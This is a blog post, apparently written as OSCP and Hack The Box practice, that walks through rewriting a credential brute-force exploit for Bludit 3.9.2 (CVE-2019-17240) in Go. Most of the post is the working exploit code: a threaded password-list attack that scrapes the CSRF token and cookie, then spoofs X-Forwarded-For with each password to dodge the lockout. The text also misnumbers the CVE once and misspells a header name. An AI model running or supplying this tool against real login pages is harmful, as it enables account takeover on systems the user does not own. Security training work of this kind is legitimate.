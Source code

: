 ```yaml
---
layout: post
title: Bludit 3.9.2 - Auth Bruteforce Bypass CVE-2019-17240
categories: [golang, cve]
---
```


When self study for OSCP certification,I stumble upon HTB machine that have CVE-2019-17420 vulnerability. I look for public exploit and there was one written in [python](https://www.exploit-db.com/exploits/48942). As challenge for me self was to recreate this exploit in golang. So lets get started. 


Beginning of our script contain imported packages. I decide not to use any third-party packages.

```go
func main() {
	var passwd_file string
	var username string
	var hostname string
	var thread int
	flag.StringVar(&passwd_file, "p", "", "Password file")
	flag.StringVar(&username, "u", "", "Enter username")
	flag.StringVar(&hostname, "l", "", "Hostname eg... http://127.0.0.1/admin/login.php")
	flag.IntVar(&thread, "c", 5, "Threads (default 5)")

	flag.Parse()

	passwords, _ := os.Open(passwd_file)

	scanner := bufio.NewScanner(passwords)
	check_password := make(chan string)
	var wg sync.WaitGroup

	totalRequests := 0
	for i := 0; i < thread; i++ {
		wg.Add(1)
		go func() {
            < OUR IMPORTANT CODE HERE >
		}()
	}

	for scanner.Scan() {
		passwd := scanner.Text()
		check_password <- passwd
	}
	close(check_password)
	wg.Wait()
	if err := scanner.Err(); err != nil {
		log.Fatal(err)
	}

}
```

At beginning of main function are declared our flags. Location of password file, username, full hostname path to login page and threads. I middle of our screen there is go-routine which working on our logic of exploit. Bottom of script will read files line by line and submit it our go-routine to process. 

Logic of our file is here 

```go
go func() {
			for pwd := range check_password {
				resp, err := http.Get(hostname)
				if err != nil {
					log.Fatalln(err)
				}
				body, err := ioutil.ReadAll(resp.Body)
				if err != nil {
					log.Fatalln(err)
				}
				sb := string(body)
				re := regexp.MustCompile(`input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="(.*?)"`)
				rs := re.FindStringSubmatch(sb)

				cookie_all := string(resp.Header["Set-Cookie"][0])
				cookie := strings.Split(cookie_all, ";")

				data := url.Values{}
				data.Set("username", username)
				data.Set("password", pwd)
				data.Set("tokenCSRF", rs[1])

				client := &http.Client{
					CheckRedirect: func(req *http.Request, via []*http.Request) error {
						return http.ErrUseLastResponse
					},
				}

				req, err := http.NewRequest("POST", hostname, strings.NewReader(data.Encode()))
				if err != nil {
					log.Fatalln(err)
				}
				req.Header.Add("Content-Type", "application/x-www-form-urlencoded")
				req.Header.Add("Content-Lenght", strconv.Itoa(len(data.Encode())))
				req.Header.Add("User-Agent", "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0")
				req.Header.Add("Referer", hostname)
				req.Header.Add("X-Forwarded-For", pwd)
				req.Header.Add("Cookie", cookie[0])

				res, err := client.Do(req)
				if err != nil {
					log.Fatalln(err)
				}

				if res.StatusCode == 200 {
					totalRequests++
					if totalRequests%10 == 0 {
						fmt.Printf("Total requests sent: %d \n", totalRequests)
					}
				} else if res.StatusCode == 301 && res.Header["Location"][0] == "/admin/dashboard" {
					fmt.Printf("Total requests sent: %d \n", totalRequests)
					fmt.Printf("==========Password Cracked=============")
					fmt.Printf("Password: %s", pwd)
					os.Exit(0)
					break
				} else {
					log.Println("NO IDEA")
				}
			}
			wg.Done()
		}()
```

My go-routine start with accepting string stored in pwd variable which is password I will be testing. At first I did GET request to our victim machine. I need it for 2 reasons. One is cookie BLUDIT-KEY which is changes everytime with new GET request.

![](/images/bludit/cookie.png)

Without this cookie we cannot authenticate. Second is CSRF token.

![](/images/bludit/csrf.png)

Go have module called http. This this module I was able to get cookie from header of response and csrf token from its body. CSRF token was little tricky as it was not that easy as with python. Had to use some woodo regex magic... thank you google and [stackoverflow](https://stackoverflow.com/questions/39908955/golang-regex-get-value-inside-parentheses) :) 

Last thing was to create POST request. Http module has function for it called NewRequest where you can specify your method (GET, POST, PUT...) url of victim and url encoded payload. We need to add some headers as this exploit it required. We also need to supply our cookie.As this NewRequest need to be somehow submitted there is Cliet for it. Problem is with login page when you get authenticate you are usually redirected via 301 and following 200 OK status code. Thats why I keep track of last status code there. Well with [stackoverflow](https://stackoverflow.com/questions/23297520/how-can-i-make-the-go-http-client-not-follow-redirects-automatically) help a little..

Last section is simple comparison is you been redirected and if location to redirection is admin/dashboard which usually sign of successful login.

Full source can be found on mt github [here](https://github.com/spyx/cve-2019-17240)

I hope you enjoy reading it. 
